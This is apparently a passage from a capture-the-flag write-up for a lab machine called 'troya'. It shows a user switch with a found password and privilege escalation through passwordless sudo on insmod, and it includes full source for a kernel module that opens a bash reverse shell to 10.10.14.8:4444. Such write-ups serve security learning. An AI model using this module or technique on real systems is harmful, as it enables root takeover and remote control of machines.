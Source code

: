 Using the credentials:

```bash
www-data@troya:/tmp$ su helena
su helena
Password: iuyqwejkhdsaiuyewq

helena@troya:/tmp$ 
```


## Shell as Root

```bash
helena@troya:/home$ sudo -l
sudo -l
Matching Defaults entries for helena on troya:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User helena may run the following commands on troya:
    (ALL) NOPASSWD: /usr/sbin/insmod
```

From https://linux.die.net/man/8/insmod : 
insmod - simple program to insert a module into the Linux Kernel

Which means that it's possible to use the command insmod to insert a kernel module. Follow the example below to get a reverse shell abusing this privilege. Credit to hacktricks : [https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-2-with-binary](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-2-with-binary)

```reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
